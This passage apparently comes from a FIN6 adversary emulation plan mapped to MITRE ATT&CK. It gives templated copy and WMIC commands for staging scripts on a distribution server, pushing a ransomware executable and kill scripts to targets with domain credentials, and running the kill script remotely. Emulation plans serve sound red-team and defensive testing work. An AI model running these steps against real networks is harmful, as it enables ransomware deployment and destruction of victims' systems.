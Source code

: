 ##### Copy the distribution scripts to the distribution server

FIN6 Procedure

```sh
copy xaa.bat \\#{Distribution Server}\c$\windows\temp\
```

##### Copy the kill script to the distribution server.

FIN6 Procedure

```sh
copy windows.bat \\#{Distribution Server}\c$\windows\temp\

copy kill.bat \\#{Distribution Server}\c$\windows\temp\
```

#### 7.2 Distribute the ransomware and kill script to the intended targets. ([T1047](https://attack.mitre.org/techniques/T1047/)) ([T1059.003](https://attack.mitre.org/techniques/T1059/003/)) <sup>[12](https://www.fireeye.com/blog/threat-research/2020/05/tactics-techniques-procedures-associated-with-maze-ransomware-incidents.html)</sup>

##### xaa.bat

FIN6 Procedure

```sh
wmic /node:#{internal IP} /user:#{"domain\username"} /password:#{"password"} process call create "cmd.exe /c copy \\#{internal IP}\c$\windows\temp\sss.exe c:\windows\temp\"
```

FIN6 Procedure

```sh
wmic /node:#{internal IP} /user:#{"domain\username"} /password:#{"password"} process call create "cmd.exe /c copy \\#{internal IP}\c$\windows\temp\windows.bat or kill.bat c:\windows\temp\"
```

#### 7.3 Execute the kill script and then the ransomware.<sup>[12](https://www.fireeye.com/blog/threat-research/2020/05/tactics-techniques-procedures-associated-with-maze-ransomware-incidents.html)</sup>

#### WMIC ([T1047](https://attack.mitre.org/techniques/T1047/))

##### Kill Script

FIN6 Procedure

```sh
wmic /node:#{Ransomware recipient} /user:#{"domain\username"} /password:#{"password"} process call create "cmd /c c:\windows\temp\windows.bat" or "kill.bat"
```
